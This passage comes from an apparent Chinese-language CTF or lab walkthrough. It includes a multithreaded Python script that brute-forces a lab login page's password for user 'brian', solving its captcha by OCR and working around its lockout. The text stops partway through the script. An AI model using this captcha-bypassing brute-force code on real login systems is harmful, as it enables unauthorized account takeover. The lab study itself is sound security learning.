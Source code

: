 `robots.txt`禁止访问`/family`路径，并暗示`rockyou`字典可能会派上用场。

## **3.3 登录爆破 (lois -> meg)**

访问`/family`路径是一个登录页面，包含用户名、密码和验证码。页面提示`brian`用户每5次尝试后会被锁定，需要重置。

为此，编写了一个Python脚本，使用`ddddocr`库识别验证码，并结合字典对`brian`用户的密码进行爆破。脚本逻辑包括自动识别验证码、处理账户锁定以及多线程爆破。

```python
import requests
import ddddocr
from concurrent.futures import ThreadPoolExecutor
from threading import Lock
import queue

url = "http://192.168.205.132:8000/family/"
cap_url = "http://192.168.205.132:8000/family/captcha.php"
rst_url = "http://192.168.205.132:8000/family/?reset=1"
user = "brian"
dict_file = "5000q.txt"
max_workers = 2

ocr = ddddocr.DdddOcr()
pw_q = queue.Queue()
found = queue.Queue(maxsize=1)
pr_lock = Lock()
total = 0
MAX_RETRY = 3   # 每个密码最多重试 3 次


def worker():
    global total
    s = requests.Session()
    s.headers.update({
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0",
        "Accept": "text/html,*/*",
        "Accept-Language": "zh-CN,zh;q=0.8,en;q=0.2",
        "Connection": "keep-alive",
        "Referer": url,
        "Upgrade-Insecure-Requests": "1"
    })

    tries = 0
    while True:
        if not found.empty():
            return
        try:
            pw, retry = pw_q.get_nowait()
            tries += 1

            cap_img = s.get(cap_url, timeout=5).content
            cap = ocr.classification(cap_img).strip()

            if len(cap) != 4:
                if retry < MAX_RETRY:
                    pw_q.put((pw, retry + 1))
                continue

            r = s.post(url, data={"username": user, "password": pw, "captcha": cap}, timeout=5)

            with pr_lock:
                total += 1
                n = total
```